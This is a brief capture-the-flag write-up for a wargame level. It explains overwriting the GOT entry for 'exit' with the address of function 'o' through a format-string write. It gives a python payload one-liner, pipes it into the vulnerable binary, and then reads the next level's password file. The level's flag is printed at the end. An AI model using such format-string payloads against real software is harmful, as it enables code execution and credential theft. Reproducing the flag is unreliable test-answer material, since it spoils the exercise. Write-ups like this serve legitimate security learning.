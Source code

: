 # Level 5

This time we need to overflow in GOT to override 'exit' function address with the address of the function 'o'.

```bash
python -c 'print "\x38\x98\x04\x08% 134513824x%4$n"' > /tmp/level5
cat /tmp/level5 - | ./level5
cat /home/user/level6/.pass
```

**Flag:** `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`
